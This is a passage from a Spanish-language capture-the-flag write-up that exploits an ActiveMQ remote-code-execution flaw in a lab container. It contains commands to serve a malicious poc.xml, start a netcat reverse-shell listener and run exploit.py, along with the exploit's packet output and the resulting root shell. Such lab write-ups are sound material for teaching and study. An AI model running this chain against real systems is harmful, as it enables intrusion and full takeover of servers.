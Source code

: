 Lo guardamos y haremos lo siguiente en la misma terminal:

Abriremos un servidor de `python3` para que pueda descargarse el `poc.xml`.

```shell
python3 -m http.server
```

En otra terminal nos pondremos a la escucha para que cuando enviemos el exploit, se nos cree una `reverse shell`:

```shell
nc -lvnp <PORT>
```

Y por ultimo en otra terminal enivaremos el exploit de la siguiente forma:

```shell
python exploit.py -i <IP_VICTIM> -u http://<IP>:8000/poc.xml
```

Info:

```
     _        _   _           __  __  ___        ____   ____ _____ 
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 172.17.0.2:61616
[*] XML URL: http://192.168.5.186:8000/poc.xml

[*] Sending packet: 000000741f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010021687474703a2f2f3139322e3136382e352e3138363a383030302f706f632e786d6c
```

Y si nos volvemos a donde teniamos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 36316
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@622c423aeaec:/# whoami
whoami
root
```

Entramos directamente como `root` ya que esto se esta ejecutando como el usuario `root` por lo que ya habremos terminado la maquina.
